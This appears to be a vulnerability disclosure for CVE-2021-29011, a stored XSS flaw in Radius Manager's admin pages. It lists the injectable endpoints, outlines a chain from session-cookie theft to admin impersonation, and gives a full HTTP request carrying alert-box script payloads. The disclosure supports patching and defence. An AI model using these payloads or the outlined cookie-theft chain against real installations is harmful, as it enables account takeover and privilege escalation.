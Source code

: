 # CVE-2021-29011 (XSS)

There are several features of the radius manager software that are vulnerable to cross-site scripting (xss). Successful exploitation requires that you have access to the Radius Management software web interface and be logged in or have an account with sufficient privileges for adding/editing certain items (such as adding users, access points, etc).

This may be used as a means to elevate privileges when chained together with CVE-2021-29012 since a low-privilege account is required. A potential attack scenario would be:

1. Insert malicious Javascript via the XSS vulnerability which will steal an admin user or higher privilege user's session cookie & send this cookie back to an attacker-controlled server.
  
2. Due to broken session management, this stolen cookie doesn't expire upon logging out so an attacker can use this session cookie to impersonate someone as long as the user they are attempting to impersonate is also logged in at the same time (more on this in the CVE-2021-29012 section).
  
3. Now the attacker can make requests on behalf of a victim user (potentially an admin with) simply by changing the *Cookie* field in the HTTP request
  
  Vulnerable endpoints include:
  

* the description field when creating new *service plans* (/admin.php?cont=new_service)
  
* the address field when creating a new user account or when editing an existing user account (/admin.php?cont=new_user and /admin.php?cont=edit_user&username=)
  
* the description field when editing an access point or adding a new access point (/admin.php?cont=edit_ap&id= and /admin.php?cont=new_ap)
  
* the first or last name field or the address field when creating a new manager account (/admin.php?cont=new_manager and /admin.php?cont=edit_manager&managername=)
  
* the name or descripton field when creating a new NAS (/admin.php?cont=new_nas and /admin.php?cont=edit_nas&id=)
  

The following are the HTTP request fields which can exploit this vulnerability across the different listed endpoints:

### Adding Manager Account Request

```http
POST /admin.php?cont=store_manager HTTP/1.1
Host: radmandemo.dmasoftlab.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 406
Origin: http://radmandemo.dmasoftlab.com
DNT: 1
Connection: keep-alive
Referer: http://radmandemo.dmasoftlab.com/admin.php?cont=new_manager
Cookie: PHPSESSID=1u7c5e6hnobson7n53vt7o3vq3; listusers_ordercol=username; listusers_ordertype=ASC; newuser_acctype=0; login_admin=admin; login_user=user; lstinv_trtype=0; lstinv_pmstatus=-1; lstinv_trusr=1; lstinv_trman=1; lstinv_paymode0=1; lstinv_paymode1=1; lstinv_paymode2=1; lstinv_paymode3=1; lstinv_paymode4=1; lstinv_paymode5=1; lstinv_paymode6=1; lstinv_paymode7=1; lstinv_paymode8=1; lstinv_paymode9=1; lstinv_paymode10=1; lstinv_paymode11=1; lstinv_paymode12=1; lstinv_paymode13=1
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

enablemanager=1&managername=script&password1=admin&password2=admin&firstname=%3Cscript%3Ealert%28%22xss+1d8%22%29%3C%2Fscript%3E&lastname=%3Cscript%3Ealert%28%22xss+1d8%22%29%3C%2Fscript%3E&company=%3Cscript%3Ealert%28%22xss+1d8%22%29%3C%2Fscript%3E&address=%3Cscript%3Ealert%28%22xss+1d8%22%29%3C%2Fscript%3E&city=&zip=&country=&state=&phone=&mobile=&email=&vatid=&lang=English&comment=&Submit=Add+manager
```